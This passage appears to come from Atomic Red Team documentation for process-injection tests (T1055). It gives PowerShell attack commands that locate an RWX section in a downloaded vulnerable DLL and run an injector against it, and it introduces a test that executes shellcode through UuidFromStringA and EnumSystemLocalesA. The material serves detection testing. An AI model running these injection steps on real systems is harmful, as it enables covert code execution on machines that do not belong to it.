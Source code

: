 
**auto_generated_guid:** 0128e48e-8c1a-433a-a11a-a5387384f1e1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vuln_dll | vulnerable DLL | path | PathToAtomicsFolder&#92;T1055&#92;bin&#92;x64&#92;vuln_dll&#92;msys-2.0.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$address = (& "$PathToAtomicsFolder\T1055\bin\x64\searchVuln.exe" "$PathToAtomicsFolder\T1055\bin\x64\vuln_dll\" | Out-String | Select-String -Pattern "VirtualAddress: (\w+)").Matches.Groups[1].Value
& "PathToAtomicsFolder\T1055\bin\x64\RWXinjectionLocal.exe" "#{vuln_dll}" $address
```

#### Cleanup Commands:
```powershell
Get-Process -Name Notepad -ErrorAction SilentlyContinue | Stop-Process -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: Utility to inject must exist on disk at specified location (#{vuln_dll})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{vuln_dll}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{vuln_dll}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/bin/x64/vuln_dll/msys-2.0.dll" -OutFile "#{vuln_dll}"
```




<br/>
<br/>

## Atomic Test #6 - Process Injection with Go using UuidFromStringA WinAPI
Uses WinAPI UuidFromStringA to load shellcode to a memory address then executes the shellcode using EnumSystemLocalesA.
With this technique, memory is allocated on the heap and does not use commonly suspicious APIs such as VirtualAlloc, WriteProcessMemory, or CreateThread 
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode/tree/master#uuidfromstringa)
- References: 
  - https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
  - https://twitter.com/_CPResearch_/status/1352310521752662018
  - https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala
